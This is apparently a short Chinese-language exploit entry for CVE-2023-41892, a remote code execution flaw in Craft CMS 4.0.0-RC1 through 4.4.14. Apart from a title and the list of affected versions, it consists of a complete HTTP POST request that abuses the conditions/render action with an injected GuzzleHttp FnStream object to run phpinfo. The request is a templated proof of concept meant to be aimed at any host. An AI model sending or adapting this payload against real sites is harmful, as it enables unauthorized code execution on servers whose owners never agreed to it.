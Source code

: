# Craft CMS远程代码执行漏洞CVE-2023-41892

## Craft CMS远程代码执行漏洞CVE-2023-41892

## 影响版本
Craft CMS >= 4.0.0-RC1
Craft CMS <= 4.4.14

## exp
```
POST /index.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

action=conditions/render&test[userCondition]=craft\elements\conditions\users\UserCondition&config={"name":"test[userCondition]","as xyz":{"class":"\\GuzzleHttp\\Psr7\\FnStream",    "__construct()": [{"close":null}],"_fn_close":"phpinfo"}}
```

